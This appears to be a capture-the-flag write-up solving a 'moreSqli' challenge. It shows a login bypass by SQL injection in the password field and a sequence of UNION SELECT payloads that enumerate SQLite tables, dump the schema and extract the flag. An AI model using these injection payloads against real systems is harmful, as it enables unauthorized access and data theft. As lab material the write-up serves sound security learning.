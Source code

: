 # solution of moreSqli

## 1- bypassing the login

- when we try to login using username = admin and password = admin the response page gives us a query that is being excuted 
<img align="center" src="./images/login.png">
```SQL
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin'
``` 
- so we can see that the password is the first field in the query so our injection should be there 
```
username= blah
password = blah' or 1=1;--
```
<img align="center" src="./images/login.png">

## 2- retrieving the data from the search box and the display

- since there is 3 attributes dispalyed one the table so i assumed there is three and i injected the following:
```SQL
algiers' union select 1,2,3;--
```
<img align="center" src="./images/first.png">
- i tried to retrieve the database version

```SQL
algiers' union select 1,2,sqlite_version();--
```
<img align="center" src="./images/second.png">
- next i tried to enumerate tables of the database other than system tables

```SQL
algiers' union select 1,2,tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--
``` 
<img align="center" src="./images/third.png">
and we get : users,more_table,offices,users.

- now its time to retrieve the structure of each table
```SQL
algiers' union select 1,2,sql from sqlite_master;--
```
<img align="center" src="./images/forth.png">

- and finally we have evrything to get the flag

```SQL
algiers' union select 1,id,flag from more_table;--
```

<img align="center" src="./images/fifth.png">
